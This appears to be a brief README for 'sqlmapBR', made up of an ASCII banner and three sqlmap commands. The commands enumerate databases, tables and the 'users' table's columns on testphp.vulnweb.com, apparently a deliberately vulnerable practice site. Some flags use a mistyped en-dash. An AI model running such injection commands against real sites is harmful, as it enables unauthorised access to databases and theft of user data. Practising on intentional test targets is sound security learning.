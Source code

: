# sqlmapBR

"
  ___  ___  _    __  __   _   ___ 
 / __|/ _ \| |  |  \/  | /_\ | _ \
 \__ \ (_) | |__| |\/| |/ _ \|  _/
 |___/\__\_\____|_|  |_/_/ \_\_|  
 | _ ) _ \                        
 | _ \   /                        
 |___/_|_\                        
                                  
"                           


python3 sqlmap -u http://testphp.vulnweb.com/listproducts.php?cat=1 –-dbs


python3 sqlmap -u  http://testphp.vulnweb.com/listproducts.php?cat=1 –-dbs -D acuart –-tables


python3 sqlmap -u http://testphp.vulnweb.com/listproducts.php?cat=1 –-dbs -D acuart -T users –-columns


